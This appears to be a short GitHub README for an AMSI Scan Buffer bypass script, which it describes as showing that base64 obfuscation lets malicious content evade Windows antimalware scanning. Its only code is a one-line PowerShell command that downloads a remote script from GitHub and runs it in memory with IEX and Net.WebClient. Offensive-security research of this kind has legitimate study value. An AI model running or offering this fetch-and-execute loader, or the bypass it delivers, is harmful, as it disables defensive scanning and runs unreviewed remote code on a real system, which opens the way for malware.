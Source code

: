 # Example of Amsi Scan Buffer byPass

This script is a simple test based on this work https://github.com/rasta-mouse/AmsiScanBufferBypass.
The main goal of this test is to demonstrate how obfuscating the code in base64 can avoid AMSI to detect Malicious Content.
The script can be executed via Net Web Client in a PowerShell.

```sh
IEX([Net.Webclient]::new().DownloadString("https://raw.githubusercontent.com/xlenam/AmZiScanBufferBypass/master/AmZiScanBufferBypass.ps1"))
```